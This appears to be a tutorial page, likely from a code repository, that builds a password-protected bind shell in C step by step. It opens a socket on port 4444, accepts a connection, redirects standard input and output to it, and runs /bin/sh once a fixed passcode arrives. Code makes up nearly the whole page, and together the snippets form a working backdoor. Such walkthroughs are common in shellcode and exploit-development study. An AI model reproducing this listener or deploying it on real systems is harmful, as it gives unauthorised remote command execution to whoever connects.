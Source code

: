 Declare the passcode that must be provided in order for the shell to be executed and its length:

```c
char *p = "Password";
int length = strlen(p);
```

Create a socket:

```c
int sockfd = socket(AF_INET, SOCK_STREAM, 0);
```

Bind a name to the socket, initializing the structure for the TCP/IP address:

```c
struct sockaddr_in address = {
	.sin_family = AF_INET,
	.sin_port = htons(4444),
	.sin_addr = INADDR_ANY
};

bind(sockfd, (struct sockaddr*) &address, sizeof(address));
```

Listen for connections on the socket:

```c
listen(sockfd, 0);
```

Accept a connection on the socket:

```c
int acceptfd = accept(sockfd, NULL, NULL);
```

Duplicate STDIN, STDOUT and STDERR file descriptors in order to redirect everything to the socket connected:

```c
dup2(acceptfd, 0);
dup2(acceptfd, 1);
dup2(acceptfd, 2);
```

Attempt to read up to 64 bytes from the accepted connection:

```c
char pass[64];
read(acceptfd, pass, 64);
```

Compare the passcode from the connection with the predefined and if they match execute the `/bin/sh` program. 

```c
if (strncmp(pass, p, length) == 0)
{
        execve("/bin/sh", NULL, NULL);
}
```
